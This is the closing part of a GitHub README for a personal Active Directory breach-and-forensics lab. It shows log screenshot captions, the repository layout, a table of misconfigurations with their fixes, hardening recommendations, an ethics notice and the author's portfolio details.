|  | Event ID 4625 spray cluster |
|  | 4625 detail — source IP 192.168.10.99 |
|  | Event ID 4624 — jsmith successful logon |
|  | PowerShell detection queries |

---

## 📁 Repository Structure

```
operation-blackwood/
├── README.md
├── dfir/
│   └── DFIR-CASE-001.md
├── phase1-build/
│   ├── 01-network-config.ps1
│   ├── 02-domain-setup.ps1
│   └── 03-ou-users.ps1
├── phase2-breach/
│   ├── 01-recon.sh
│   ├── 02-spray.sh
│   └── 03-credential-extraction.sh
├── phase3-dfir/
│   ├── 01-evidence-collection.ps1
│   └── 02-log-analysis.ps1
└── screenshots/
    ├── phase1/
    ├── phase2/
    └── phase3/
```

---

## 🛡️ Root Cause & Remediation

### Misconfigurations That Enabled Full Compromise

| # | Issue | Fix |
|---|-------|-----|
| 1 | Weak password accepted — `Password123!` | Enforce 15+ character minimum, ban common passwords |
| 2 | No account lockout policy | Set lockout threshold to 5 attempts |
| 3 | RC4 Kerberos encryption enabled | Enforce AES only — disable RC4 via GPO |
| 4 | No MFA on privileged accounts | Enforce MFA for all Domain Admin accounts |
| 5 | NTLM not restricted | Set `Network Security: Restrict NTLM` via GPO |
| 6 | Service account password weak | Use 25+ character random passwords, rotate quarterly |

### Strategic Recommendations

- Deploy **Microsoft Defender for Identity** — detects spray, PTH, and Kerberoasting natively
- Implement **Privileged Access Workstations (PAWs)** for all admin accounts
- Adopt **Tiered AD Administration** model (Tier 0/1/2 separation)
- Enable **Credential Guard** on all Windows 10+ endpoints
- Run quarterly **password audits** using DSInternals `Test-PasswordQuality`

---

## ⚠️ Legal & Ethical Notice

This lab is conducted entirely within an isolated VirtualBox internal network on personal hardware. No external systems, production environments, or third-party networks were targeted. All techniques demonstrated are for educational and portfolio purposes only. Always obtain explicit written permission before performing security testing on any system you do not own.

---

## 👤 Author

**Zackery Monk** | B.S. Cybersecurity (Cum Laude) | Charlotte, NC  
Targeting: SOC Analyst · Jr. Penetration Tester · DFIR Analyst  
[GitHub: empty-throne](https://github.com/empty-throne)
[LinkedIn: Zackery Monk](https://www.linkedin.com/in/zackery-monk/)

*Part of the **SentinelView Trilogy** — Reconnaissance → Detection → Forensics*
